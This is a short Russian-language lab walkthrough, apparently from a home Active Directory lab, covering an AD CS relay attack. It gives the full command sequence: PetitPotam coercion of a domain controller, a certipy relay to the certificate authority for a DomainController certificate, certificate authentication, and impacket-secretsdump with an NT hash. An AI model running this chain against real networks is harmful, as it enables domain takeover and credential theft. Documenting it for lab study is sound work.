 ![](/images/coerce/Pasted%20image%2020250104231328.png)

Заставим контроллер домена meereen.essos.local аутентифицироваться на хосте злоумышленника 192.168.56.200, а затем перенаправим аутентификацию на центр сертификации braavos.essos.local (192.168.56.23) для получения сертификата meereen.

```
certipy-ad relay -target 192.168.56.23 -debug -timeout 20 -template 'DomainController'
python /home/kali/PetitPotam/PetitPotam.py -u '' -p '' -d essos.local 192.168.56.200 192.168.56.12
```
![](/images/coerce/Pasted%20image%2020250104005126.png)

```
certipy-ad auth -pfx meereen.pfx -username 'meereen$' -domain 'essos.local' -debug -timeout 10
impacket-secretsdump 'essos.local/meereen$@192.168.56.12' -hashes aad3b435b51404eeaad3b435b51404ee:479fe4f83fef76d1bb97472c725e7043
```